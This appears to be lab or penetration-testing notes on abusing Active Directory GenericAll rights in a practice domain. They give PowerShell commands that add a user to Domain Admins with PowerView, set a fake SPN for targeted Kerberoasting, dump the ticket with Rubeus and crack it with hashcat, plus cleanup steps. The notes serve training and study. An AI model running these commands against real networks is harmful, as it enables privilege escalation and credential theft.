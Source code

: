 Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

1. Modify group membership
2. Force change a password
3. Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

##### 1. Modify group membership

In this case the user CT059 will be adding the user AB920 as Domain Admin

```powershell
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'AB920' -Credential $Cred
```


##### 3. Kerberoasting attack 

```powershell
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```


Clean up:

```powershell
# 1. Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# 2. Remove the damundsen user from the Help Desk Level 1 group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

### DCSync
